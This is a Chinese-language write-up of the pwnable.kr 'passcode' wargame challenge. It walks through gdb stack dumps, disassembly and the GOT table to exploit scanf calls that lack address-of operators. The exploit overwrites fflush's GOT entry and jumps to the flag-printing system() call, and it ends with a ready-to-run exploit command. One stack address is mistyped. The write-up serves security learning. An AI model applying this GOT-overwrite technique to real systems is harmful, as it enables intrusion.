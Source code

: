 # Solution
## 描述
```
Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)
```

## 分析
首先查看文件
```
ls -l
total 16
-r--r----- 1 root passcode_pwn   48 Jun 26  2014 flag
-r-xr-sr-x 1 root passcode_pwn 7485 Jun 26  2014 passcode
-rw-r--r-- 1 root root          858 Jun 26  2014 passcode.c
```
查看源代码`cat passcode.c`
```C
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```
这段代码可以输入的地方有三处
* `welcome`中`scanf("%100s", name);`
* `login`中`scanf("%d", passcode1);`
* `login`中`scanf("%d", passcode2);`

观察到在函数`login`中，`scanf("%d", passcode1);`和`scanf("%d", passcode2);`两句话没有取地址，也就是说`scanf`会把`passcode1`中的值当成输入的地址，而这个变量的值取决于当时该变量所处栈帧的值，如果我们能够控制该栈帧的值，我们就能往任意一个地址输入四个字节的数据。

### 获得`name`的地址
使用[bof](../bof/bof.md)中的方法，找到函数`welcome`中`name[100]`的首地址：
* 使用gdb调试，在`scanf("%100s", name);`之后设置断点，运行程序输入标识字符串(我使用`XXXXXXXXXXXXXXXXXXXXXXXX`）
* 然后使用`x/40xw $sp`查看栈空间中`40`字节的数据
```
 X/40xw $sp
0xfff53c90:	0x080487dd	0xfff53ca8	0xf76f5d60	0xf75af71b
0xfff53ca0:	0xf76f5d60	0x08922008	0x58585858	0x58585858
0xfff53cb0:	0x58585858	0x58585858	0x58585858	0x58585858
0xfff53cc0:	0x58585858	0x58585858	0xfff50058	0xf76f5000
0xfff53cd0:	0xf75b0067	0xf76f5000	0x00000027	0xf75a517b
0xfff53ce0:	0xf76f5d60	0x0000000a	0x00000027	0xf76f9000
0xfff53cf0:	0xf77176db	0xf7545700	0x00000000	0xf76f5d60
0xfff53d00:	0xfff53d38	0xf771dee0	0xf75a502b	0xbbd70500
0xfff53d10:	0xf76f5000	0xf76f5000	0xfff53d38	0x0804867f
0xfff53d20:	0x080487f0	0x08048250	0x080486a9	0x00000000
```
得到`name`的地址是`0xfff53ca8`

### 获得`passcode1`的地址
使用gdb反汇编`login`函数
```
(gdb) disas
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
=> 0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
```
注意到`<+19>`到`<+31>`这一段是给`scanf`传参的过程，于是可以定位`passcode1`的地址是`-0x10(%ebp)`，查看`$ebp`的值如下：
```
info registers $ebp
ebp            0xfff53d18	0xfff53d18
```
于是`passcode1`的地址是`0xffff53d08`正好是`name[100]`的最后四个字节，于是我们可以通过构造第一次的输入来控制`passcode`的值，从而向某个指定的地址输入四个字节的数据

### GOT覆写
elf文件中有一个GOT表，里面储存了一些函数的跳转地址，比如`login`函数中的`0x08048593 <+47>:	call   0x8048430 <fflush@plt>`指令，系统会(通过查询`PLT`来)查询`GOT`表，找到`fflush`函数的跳转地址。

通过`readelf`命令可以查看`elf`文件的`GOT`表
```
readelf -r passcode

Relocation section '.rel.dyn' at offset 0x388 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff0  00000606 R_386_GLOB_DAT    00000000   __gmon_start__
0804a02c  00000b05 R_386_COPY        0804a02c   stdin@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```
可以看到`fflush`的`GOT`条目的偏移地址是`0x0804a004`，这个地址处的内容是`fflush`函数的跳转地址，我们只要把这个地址处的内容通过`scanf`覆写掉，在执行`fflush`的时候就会跳转到我们写进去的地址处了

### 找到输出`flag`的代码地址
输出`flag`的汇编代码如下
```
0x080485e3 <+127>:	movl   $0x80487af,(%esp)
0x080485ea <+134>:	call   0x8048460 <system@plt>
```
找到地址为`0x080485e3`，即`134514147`

### 总结
攻击过程如下：
* 构造`name[100]`的输入，把`passcode1`的值改为`GOT`表中`fflush`的地址
* 在`scanf("%d", passcode1);`时，输入‘输出`flag`的代码段’的地址
* 程序调用`fflush`，跳转到我们指定的地址执行，输出代码段

## 问题解决
输入如下代码
```
 (python -c "print 'X' * 96 + '\x00\xa0\x04\x08'"; echo "134514147" ) | ./passcode
```